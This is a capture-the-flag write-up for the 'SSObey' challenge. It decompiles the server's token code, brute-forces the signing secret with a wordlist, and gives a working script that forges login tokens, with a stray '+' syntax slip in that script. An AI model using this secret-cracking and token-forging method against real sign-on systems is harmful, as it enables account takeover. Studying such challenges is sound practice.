



SSObey


The website providers the server code (See the Powered by SSObey link).
It seems to be python 3 pex archive, it can be extracted using 7zip.
Decompiling pyc files:
uncompyle6 .\sso_client\.deps\ssobey-20180117-py3-none-any.whl\ssobey\config_example.pyc > decompiled/ssobey/config_example.py
uncompyle6 .\sso_client\.deps\ssobey-20180117-py3-none-any.whl\ssobey\util.pyc > decompiled/ssobey/util.py
uncompyle6 .\sso_client\.deps\ssobey-20180117-py3-none-any.whl\ssobey\web.pyc > decompiled/ssobey/web.py
The most important src files are web.py and utils.py.
utils.py:
SCRAMBLE_KEY = 'CgEZBz4vSHDK'.encode()
def xor(plaintext, key):
r = []
for x, y in zip(plaintext, key):
r.append(x ^ y)
return bytes(r)
def obey_the_signature(data):
secret = xor(binascii.hexlify(app.config['SSO_SECRET']), SCRAMBLE_KEY)
proof = hashlib.sha256(secret + data).hexdigest()
return proof
def calc_sso_token(user):
proof = obey_the_signature(user.encode())
tok = json.dumps({'user': user, 'proof': proof})
return base64.urlsafe_b64encode(tok.encode())
def is_blacklisted(user):
for blacklisted in app.config['BLACKLIST']:
if user == blacklisted['user']:
return True
return False
def verify_sso_token(tok):
dt = base64.urlsafe_b64decode(tok)
jt = json.loads(dt)
if is_blacklisted(jt['user']):
return abort(500, 'This user is blacklisted')
wantsig = obey_the_signature(jt['user'].encode())
recvsig = jt['proof']
if wantsig != recvsig:
return abort(500, 'Incorrect SSObey token')
return jt
web.py:
...
@app.route('/', methods=['GET', 'POST'])
def login():
if request.method == 'GET':
return render_template('index.html')
username, password = request.form['username'], request.form['password']
if is_blacklisted(username):
flash('This user is blacklisted.', 'danger')
return render_template('index.html')
okpass = app.config['USERS'].get(username)
if okpass is None:
flash('User does not exist.', 'danger')
return render_template('index.html')
if okpass != password:
flash('Wrong password.', 'danger')
return render_template('index.html')
tok = calc_sso_token(username)
retaddr = request.args.get('returnTo')
if retaddr:
u = url_parse(retaddr)
q = u.decode_query()
q['ssobey_token'] = tok
nu = u.replace(query=url_encode(q))
return redirect(nu.to_url())
flash('Ok, now what, no return url...', 'warning')
return render_template('index.html')
@app.route('/.blacklist')
def blacklist():
return jsonify(app.config['BLACKLIST'])
@app.route('/test')
def test():
uid = session.get('uid')
if uid is None:
tok = request.args.get('ssobey_token')
if tok is None:
return redirect(url_for('.login', returnTo=url_for('.test', _external=True)))
authinfo = verify_sso_token(tok)
session['uid'] = authinfo['user']
return redirect(url_for('.test'))
return render_template('test.html', uid=uid, flag=app.config['FLAG'])
The http://ssobey.thenixuchallenge.com/.blacklist
provides the tokens for blacklisted users:
[
{
"token": "eyJ1c2VyIjogInRlc3QiLCAicHJvb2YiOiAiNTFiNmY0NDJlMDMzNjRlM2JkMDZkZDQxODYwYmU3NDM0MmExMGUwNDhiNmE3Y2NkZDFjNzcxMWQ0ODM3MzYwZSJ9",
"user": "test"
}
]
Because we know the SCRAMBLE_KEY, username and the proof hash for the blacklisted test user,
the sso secret can be brute-forced:
import base64, hashlib, binascii
import json
SCRAMBLE_KEY = 'CgEZBz4vSHDK'.encode()
def xor(plaintext, key):
r = []
for x, y in zip(plaintext, key):
r.append(x ^ y)
return bytes(r)
def test_secret(pwd):
secret = xor(binascii.hexlify(pwd), SCRAMBLE_KEY)
proof = hashlib.sha256(secret + 'test'.encode()).hexdigest()
return proof == "51b6f442e03364e3bd06dd41860be74342a10e048b6a7ccdd1c7711d4837360e"
with open('/usr/share/wordlists/rockyou.txt', 'rb') as f:
while True:
pwd = f.readline()[:-1]
if not pwd:
break
print("%s" % pwd)
if test_secret(pwd):
print("Found secret: ", pwd)
exit(0)
The sso secret is 3668301.
Forging the token (the token has to be valid to get the flag, username does not matter):
import base64, hashlib, binascii
import json
SCRAMBLE_KEY = 'CgEZBz4vSHDK'.encode()
SSO_SECRET = "3668301".encode()
def xor(plaintext, key):
r = []
for x, y in zip(plaintext, key):
r.append(x ^ y)
return bytes(r)
def obey_the_signature(data):
secret = xor(binascii.hexlify(SSO_SECRET), SCRAMBLE_KEY)
proof = hashlib.sha256(secret + data).hexdigest()
return proof
def calc_sso_token(user):
proof = obey_the_signature(user.encode())+
tok = json.dumps({'user': user, 'proof': proof})
return base64.urlsafe_b64encode(tok.encode())
print("Token: %s" % calc_sso_token("test2"))
